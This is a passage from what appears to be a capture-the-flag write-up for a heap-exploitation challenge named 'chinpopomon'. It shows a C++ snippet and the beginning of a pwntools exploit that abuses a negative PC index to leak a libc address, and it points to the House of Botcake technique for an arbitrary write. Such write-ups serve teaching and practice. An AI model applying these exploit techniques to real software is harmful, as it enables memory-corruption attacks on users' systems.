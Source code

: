 ```cpp
		cout << this->nickname << ", " << this->nickname << "!" << endl;
	}
};


...
...
...

for (int i = 0; i < pc.size(); ++i)
	delete pc[i];	// Prevent memory leaks
```

With this knowledge, we can abuse the string attribute in the ChinPoPomon class in order to get an aribitrary write, with techniques like the [House of Botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.31/house_of_botcake.c)

Below is my exploit

```py
from pwn import *
import codecs

p = process('./chinpopomon')


def set_name(name):
	p.sendlineafter("name?", name)

def create(type_num, nickname):
	p.sendlineafter("Choice:", '1')
	p.sendlineafter("Choice:", str(type_num))
	p.sendlineafter("Name: ", nickname)

def enter_pc():
	p.sendlineafter("Choice:", '2')

def exit_pc():
	p.sendlineafter("Choice:", '4')

def restart_game():
	p.sendlineafter("Choice:", '3')

def deposit(index):
	p.sendlineafter("PC Choice:", '1')
	p.sendlineafter("index:", str(index))

def withdraw(index):
	p.sendlineafter("PC Choice:", '2')
	p.sendlineafter("index:", str(index))

def view_stats(index):
	p.sendlineafter("PC Choice:", '3')
	p.sendlineafter("index:", str(index))


# Get libc leak
set_name(p64(0x4072d8) + p64(0x407280)[:-1])
enter_pc()
deposit(-2)
view_stats(0)

libc_leak = int(codecs.encode(p.recvuntil("\x7f")[-6:][::-1], 'hex'), 16)
libc_base = libc_leak - 0x3c7ce0
```
